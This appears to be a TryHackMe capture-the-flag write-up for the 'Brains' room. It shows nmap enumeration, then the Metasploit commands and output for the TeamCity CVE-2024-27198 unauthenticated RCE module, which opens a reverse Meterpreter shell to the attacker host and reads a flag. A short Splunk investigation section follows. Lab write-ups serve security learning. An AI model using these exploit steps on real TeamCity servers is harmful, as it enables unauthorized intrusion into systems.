 ```yaml
---
title: "Brains"
date: 2025-03-02
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Brains
categories: [TryHackMe, Easy]
tags: [linux, rce, metasploit, teamcity, dfir, splunk]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Brains</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>The city forgot to close its gate.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/brains">https://tryhackme.com/room/brains</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Brains.  

## Part One Red Team

### Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.9.245     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 10:28 EDT
Nmap scan report for 10.10.9.245
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 26.16 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,50000 10.10.9.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-02 10:29 EDT
Nmap scan report for 10.10.9.245
Host is up (0.035s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d7:07:ad:ad:85:de:64:c8:92:52:6c:92:e3:33:37:e6 (RSA)
|   256 6c:64:8d:b1:3f:08:53:a6:8a:af:c4:93:d8:de:77:50 (ECDSA)
|_  256 ee:a0:eb:3c:1c:0e:b4:15:b2:48:1e:13:a1:f7:d6:05 (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Maintenance
50000/tcp open  ibm-db2?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 401 
|     TeamCity-Node-Id: MAIN_SERVER
|     WWW-Authenticate: Basic realm="TeamCity"
|     WWW-Authenticate: Bearer realm="TeamCity"
|     Cache-Control: no-store
|     Content-Type: text/plain;charset=UTF-8
|     Date: Thu, 13 Mar 2025 14:29:10 GMT
|     Connection: close
|     Authentication required
|     login manually go to "/login.html" page
|   drda, ibm-db2, ibm-db2-das: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 13 Mar 2025 14:29:10 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver displayed a `maintanance note`, as shown in the following screenshot:

screen 1

After performing several enumeration techniques, I moved on to the next port, as I didn't find anything useful on port 80. 

### Port 50000 Analysis

Port provided access to a `TeamCity` installation, which displayed the version number on the login page. Since I didn't have any credentials, I started researching the version number. I discovered that `TeamCity` version `2023.11.3` had multiple vulnerabilities. The Unauthenticated Remote Code Execute I found in this <a href="https://sploitus.com/exploit?id=PACKETSTORM:177601">post</a> seemed to be the best option, as it was available as a Metasploit module. I started Metasploit, searched for the vulnerability, and found it right away: 
```bash
msf6 > search teamcity

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   0   exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793  2023-09-19       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   1     \_ target: Windows                                      .                .          .      .
   2     \_ target: Linux                                        .                .          .      .
   3   exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   4     \_ target: Java                                         .                .          .      .
   5     \_ target: Java Server Page                             .                .          .      .
   6     \_ target: Windows Command                              .                .          .      .
   7     \_ target: Linux Command                                .                .          .      .
   8     \_ target: Unix Command                                 .                .          .      .
   9   exploit/multi/misc/teamcity_agent_xmlrpc_exec             2015-04-14       excellent  Yes    TeamCity Agent XML-RPC Command Execution
   10    \_ target: Windows                                      .                .          .      .
   11    \_ target: Linux     
```

After loading the module, I set the necessary options and executed the exploit. After the Meterpreter shell spawned, I was able to retrieve the flag: 
```bash
msf6 > use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set LHOST tun0
LHOST => [attackerip]
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS 10.10.243.137
RHOSTS => 10.10.243.137
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
RPORT => 50000
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.TGJpZXlvdGJqYVBhNXQzdUF2MVlCT1drNVpR.Y2EzYmE4YjgtN2FiNy00OTE0LWI1OWEtNzhlZTk1ODUxY2Mw
[*] Uploading plugin: FExxz9f4
[*] Sending stage (57971 bytes) to 10.10.243.137
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.243.137:46230) at 2025-03-13 15:43:50 -0400
[*] Deleting the plugin...
[!] Failed to list all plugins.
[!] Failed to discover enabled plugin UUID
[!] Failed to delete the plugin.
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/FExxz9f4' on the target
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_FExxz9f4' on the target
[!] This exploit may require manual cleanup of '/home/ubuntu/.BuildServer/system/caches/plugins.unpacked/FExxz9f4' on the target

meterpreter > cd /home
meterpreter > cd ubuntu
meterpreter > cat flag.txt
THM{f[removed]4}
```

## Part Two Blue Team

For the investigation, we had access to a Splunk system. After some investigation, I identified that the key time span was between july 4th and 8th. Using the following search queries, I was able to answer the questions:

![Query One](/assets/img/tryhackme/Brains/thm_brains_2.jpg)

![Query Two](/assets/img/tryhackme/Brains/thm_brains_3.jpg)

![Query Three](/assets/img/tryhackme/Brains/thm_brains_4.jpg)

solved! :)